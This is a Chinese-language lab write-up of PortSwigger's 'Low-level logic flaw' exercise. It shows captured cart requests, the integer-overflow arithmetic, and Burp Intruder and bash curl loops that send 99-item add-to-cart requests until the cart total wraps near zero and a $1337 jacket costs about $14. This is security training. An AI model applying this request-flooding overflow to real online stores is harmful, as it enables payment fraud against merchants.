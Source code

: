 ```yaml
---
layout: post
title: "Low-level logic flaw"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_Business_Logic
author: ""
tags: ['PortSwigger_Lab', 'Business_Logic']
---
```






# Low-level logic flaw

低級邏輯缺陷


登入:
credentials: `wiener:peter`


目標:
```
buy a "Lightweight l33t leather jacket".
```



進去到 l33t 頁面，然後抓包 add to cart 的請求。


```http
POST /cart HTTP/1.1
Host: 0ab500560432e84fc0fa809e00d80026.web-security-academy.net
Cookie: session=wwghWaOVTzQjjMDgegFViFP4ToEs4C8m
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ab500560432e84fc0fa809e00d80026.web-security-academy.net
Referer: https://0ab500560432e84fc0fa809e00d80026.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1

```



這次使用整數溢出漏洞。

溢出原理:
https://zh.wikipedia.org/zh-tw/%E6%95%B4%E6%95%B0_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%A7%91%E5%AD%A6)


先拿去repeater 測試。

測試 quantity 負數 -1 -2.....

發現沒變化。(大概是後端規定不能小於0)



抓包修改，發現 quantity得值 也不是能隨意修改。


前端和後端都有過慮，最大值為99


所以我們只能一次發送99數量的封包。


計算時間:

32bit:

```
範圍
2147483647   - −21474836.48

我們要溢出到負數在到接近零，所以要把數字相加
42949672.95


l33t leather jacket 一件 1337元

42949672/1337
=32123 

大約要買32123 件才會接近0


而一次能買99件
32123/99
=324


所以大約要發送
324個包



```



拿去intruder ，然後發送 null payload 


payload option:
continue indefinitely
(持續發送)

這時 可以刷新 cart 的頁面，去看看有沒有溢出。


剩下的就是時間問題，不過未來應該寫一個工具。
不然bp 免費版 intruder 慢死了。


///////////////////////////////////////////////////////////////////////////////////


另外 有關於爬蟲，或是其他工具 送出包的時候

header 加上double quote 的線上工具:
https://onlinelisttools.com/quote-list-items

使用:
在 item joiner 加上 :

input seperator 加上 :

至於空格可以交給sublime 刪除。


///////////////////////////////////////////////////////////////////////////////////


postman

可以使用bp 的外掛:
postman intergration

然後送給postman 的runner

不過還是太慢





最後使用了組合技加快速度:

1.借助 bp 的外掛postman intergration然後輸入到postman 
2.postman 轉換成 curl 指令
3.postman 可以用自己的runner 來loop
4.linux 也可以用 bash 來loop curl 指令 (然後多開命令列 達到多線程)

(總之一個工具負責100個)

postman curl:

```bash

curl --location --request POST 'https://0a4200ec031be382c0b2671600af0011.web-security-academy.net/cart' \
--header 'Host: 0a4200ec031be382c0b2671600af0011.web-security-academy.net' \
--header 'Cookie: session=GzpvkoDR19JyfmsZfO6QookAdvXD7deT' \
--header 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
--header 'Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Origin: https://0a4200ec031be382c0b2671600af0011.web-security-academy.net' \
--header 'Referer: https://0a4200ec031be382c0b2671600af0011.web-security-academy.net/product?productId=1' \
--header 'Upgrade-Insecure-Requests: 1' \
--header 'Sec-Fetch-Dest: document' \
--header 'Sec-Fetch-Mode: navigate' \
--header 'Sec-Fetch-Site: same-origin' \
--header 'Sec-Fetch-User: ?1' \
--header 'Te: trailers' \
--data-urlencode 'productId=1' \
--data-urlencode 'redir=PRODUCT' \
--data-urlencode 'quantity=99'

```



linux bash loop curl 指令
```bash

for i in {1..100}
do

	curl --location --request POST 'https://0a4200ec031be382c0b2671600af0011.web-security-academy.net/cart' \
--header 'Host: 0a4200ec031be382c0b2671600af0011.web-security-academy.net' \
--header 'Cookie: session=GzpvkoDR19JyfmsZfO6QookAdvXD7deT' \
--header 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
--header 'Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Origin: https://0a4200ec031be382c0b2671600af0011.web-security-academy.net' \
--header 'Referer: https://0a4200ec031be382c0b2671600af0011.web-security-academy.net/product?productId=1' \
--header 'Upgrade-Insecure-Requests: 1' \
--header 'Sec-Fetch-Dest: document' \
--header 'Sec-Fetch-Mode: navigate' \
--header 'Sec-Fetch-Site: same-origin' \
--header 'Sec-Fetch-User: ?1' \
--header 'Te: trailers' \
--data-urlencode 'productId=1' \
--data-urlencode 'redir=PRODUCT' \
--data-urlencode 'quantity=99'


done




```


最後結果:

```
Lightweight "l33t" Leather Jacket  $1337.00  32123 
32123件



Gym Suit  $65.09  19 
19件


Total:  $14.75


```

100元可以購買1337的品項 

只花了14元